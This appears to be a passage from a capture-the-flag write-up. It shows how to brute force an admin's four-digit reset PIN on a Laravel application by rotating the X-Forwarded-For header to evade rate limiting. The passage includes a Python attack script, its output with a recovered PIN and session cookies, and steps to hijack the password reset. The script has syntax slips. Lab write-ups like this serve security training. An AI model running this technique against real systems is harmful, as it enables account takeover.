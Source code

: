 ## Brute Forcing Admin's PIN

Iterative attempts to brute force `admin`'s reset password PIN indicate the application implements some sort of rate limiting protection. However, the Laravel web application functions through an Nginx reverse proxy. Since it is proxy aware, it appears to be possible to bypass the rate limiting by using the `X-Forwarded-For` HTTP header and changing its value to a new IP address each time the rate limiting kicks in. The following Python script does this, returning the PIN and the HTTP cookies required to change the password.

```python
import random
import time

from bs4 import BeautifulSoup
import requests


def gen_x_forwarded_for() -> str:
   i = random.randint(0, 254)
   return f"127.0.0.{i}"


with requests.Session() as session:

	# Grab reset password form CSRF
    response = session.get("http://10.129.227.109/reset")
    assert response.status_code == 200
    soup = BeautifulSoup(response.text, "html.parser")
    token = soup.find("input", {"name": "_token"})["value"]
    assert token is not None

	# Submit reset password form for admin user
    response = session.post(
        "http://10.129.227.109/reset",
        data={
            "_token": token,
            "name": "admin"
        }
    )
    assert "Invalid Username" not in response.text

	# Brute force reset password PIN
    x_forwarded_for = gen_x_forwarded_for()
    for i in range(10000):
        pin = str(i).zfill(4)
        response = session.post(
            "http://10.129.227.109/api/resettoken",
            headers={"X-Forwarded-For": x_forwarded_for},
            data={
                "name": "admin",
                "pin": pin
            }
        )

        if response.status_code == 429:
            x_forwarded_for = gen_x_forwarded_for()
            response = session.post(
                "http://10.129.227.109/api/resettoken",
                headers={"X-Forwarded-For": x_forwarded_for},
                data={
                    "name": "admin",
                    "pin": pin
                },
                proxies={"http": "http://127.0.0.1:8080"}
            )

        elif "Invalid Pincode" not in response.text:
            print(f"[*] Valid PIN: {pin}")
			print(f"[*] Cookies: {session.cookies})
            break
```

```bash
$ python3 brute-force-pin.py
[*] Valid PIN: 1055
[*] Cookies: <RequestsCookieJar[<Cookie XSRF-TOKEN=eyJpdiI6IjhPUlF2OWVRNkx5c0V1akpRcXlPTkE9PSIsInZhbHVlIjoiTmdrWVdWaDdzRHdpS0ZwbGY4VXlFdGVjUXN3RHBzcytTNFNMd05zcWY5cXNCSGpJcFVQOXlyRjBMYWNxT2JmZnFCRzE3YXdDMDNHVHU4d1c5SVFNTlk2cnRENlVxNTRZT0pBZDdmeVJOdVMxMGlYZlQzdm1QMGQ3V3R5TDF4bjgiLCJtYWMiOiJkM2Y2ZTJkNzI5NDhkOTkxNjFkMDg5MzhiNTIxYmRjOGRlMGJiNjJkZTVmNWQ3OWJiYzMxODM5YzQxYzUxM2MyIiwidGFnIjoiIn0%3D for 10.129.53.183/>, <Cookie laravel_session=eyJpdiI6ImtWKzNMQ2FWaVFpcE04c2ZZaWVac0E9PSIsInZhbHVlIjoiUjQvalZvTDg2Rzd6Q3lMeHhLZkc1L3hWZnYzejhvL2JadytOa1hRelNDZEpWQm0zYSsvb1J5OXFkU0FLSzFsWWVzaERrVElxVmtNNzJ2UlNWaGwzT2I5THpVQmlBNXlBejY1RjZDSXdIMHJjUWdPdFlUMzZSdHBUb09xTkExTE8iLCJtYWMiOiI1MWY1ODFhMTEwZGE1YWNkMjJhZmNiZjk4MTllYjU5NzVkZDQzNmM2N2UyOWQ1MjI3MjNiMzdhNWExM2FiYTQ1IiwidGFnIjoiIn0%3D for 10.129.53.183/>]>
```

Navigate to `/reset` and insert the two cookies into your session. Enter the PIN.

